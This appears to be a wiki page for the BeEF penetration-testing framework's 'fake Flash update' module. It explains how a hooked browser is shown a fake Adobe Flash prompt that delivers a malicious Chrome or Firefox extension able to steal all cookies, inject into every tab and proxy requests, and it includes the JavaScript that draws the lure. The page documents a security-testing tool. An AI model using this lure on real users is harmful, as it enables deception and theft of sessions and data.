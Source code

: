 ##Summary

* **Description**: 
   * Prompts the user to install an update to Adobe Flash Player.The file to be delivered could be a Chrome or Firefox extension. 
   * A Chrome extension has privileged access and can do a whole lot.. 
       * Access all tabs and inject beef into all tabs
       * Use hooked browser as a proxy to do cross domain requests
       * Get all cookies including HTTPonly cookies
    * _Note_ : the Chrome extension delivery will work on Chrome <= 20. From Chrome 21 things changed in terms of how extensions can be loaded.
     * The Firefox extension is disabling PortBanning (ports 20,21,22,25,110,143), enabling Java, overriding the UserAgent and the default home/new_tab pages. See extensions/ipec/files/LinkTargetFinder dirrectory for the Firefox extension source.
* **Authors**: mh, antisnatchor
* **Browsers**: All (User is notified)
* **Parameters** :
  * **Splash Image** : Main image used for fake message (default is adobe reader logo)
  * **BeEF payload root path** : URL of the BeEF server should be here
  * **Payload** : Choose the payload (Chrome or Firefox)
* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/fake_flash_update)

##Internal Working

This module basically add a fake message in the center of the screen and redirect to the browser extension when the user clicks on it :

```javascript
var div = document.createElement('div');
div.setAttribute('id', 'splash');
div.setAttribute('style', 'position:absolute; top:30%; left:40%;');
div.setAttribute('align', 'center');
document.body.appendChild(div);
div.innerHTML= '<a href=\'' + payload + '\' ><img src=\''+ image +'\' /></a>';
    $j("#splash").click(function () {
      $j(this).hide();
        beef.net.send('<%= @command_url %>', <%= @command_id %>, 'answer=user has accepted');
    });
````

## Screenshots

_Command_ :
[[Images/module-fake-flash-update1.png|align=center]]

_Fake message_ :
[[Images/module-fake-flash-update2.png|align=center]]

_Error with Chrome  > 20_ :
[[Images/chrome-extensions.png|align=center]]

_Alert message on Firefox 17_ :
[[Images/module-fake-flash-update2.png|align=center]]

## Feedback

* Blocked with recent version of Chrome (> 20)
* It would be usefull to automatically detect if the browser is chrome or firefox and remove the payload option

## References

* [Adding extensions from other websites ](http://support.google.com/chrome_webstore/bin/answer.py?hl=en&answer=2664769&p=crx_warning)
